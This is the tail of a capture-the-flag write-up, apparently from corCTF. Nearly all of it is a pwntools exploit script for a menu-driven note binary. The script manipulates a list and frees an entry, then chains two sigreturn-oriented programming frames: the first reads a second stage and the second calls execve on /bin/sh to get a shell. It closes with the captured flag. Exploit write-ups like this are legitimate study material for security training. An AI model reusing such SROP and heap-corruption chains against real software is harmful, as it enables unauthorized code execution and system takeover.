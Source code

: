 ```python
        p.sendlineafter(b'solution: ',popen(cmd).read().encode())
    return p

p = start()

def forward():
    p.sendlineafter(b"> ",b"1")

def backward():
    p.sendlineafter(b"> ",b"2")

def delete():
    p.sendlineafter(b"> ",b"4")

def add_pad(rop: bytes):
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"title:",b"A"*0x10)
    p.sendlineafter(b"content:",b"B"*22+rop)

def add(rop: bytes):
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"title:",rop[:32])
    p.sendlineafter(b"content:",rop[32:])

for i in range(0xf6):
    backward()
delete()
syscall_ret = 0x801A468
sigret = 0x000000000801A4AC
frame1 = SigreturnFrame()
frame1.rax = 0
frame1.rdi = 0
frame1.rsi = 0x80000100
frame1.rdx = 0x8000
frame1.rsp = 0x80000100
frame1.rip = syscall_ret
payload = p64(sigret)+bytes(frame1)[1:]

add_pad(payload[:128-22])
forward()
add(payload[128-22:])
p.sendlineafter(b"> ",b"6")

frame2 = SigreturnFrame()
frame2.rax = 0x3b
frame2.rdi = 0x80000100+8+len(bytes(frame2))
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall_ret


pause()

p.sendline(p64(sigret)+bytes(frame2)+b"/bin/sh\0")

p.interactive()
```

![image](https://user-images.githubusercontent.com/31349426/257214034-9365165c-e521-4f60-a0d3-1fc3fe6b6872.png)

Flag: `corctf{sur3ly_th15_t1m3_17_w1ll_k1ll_c!!}`

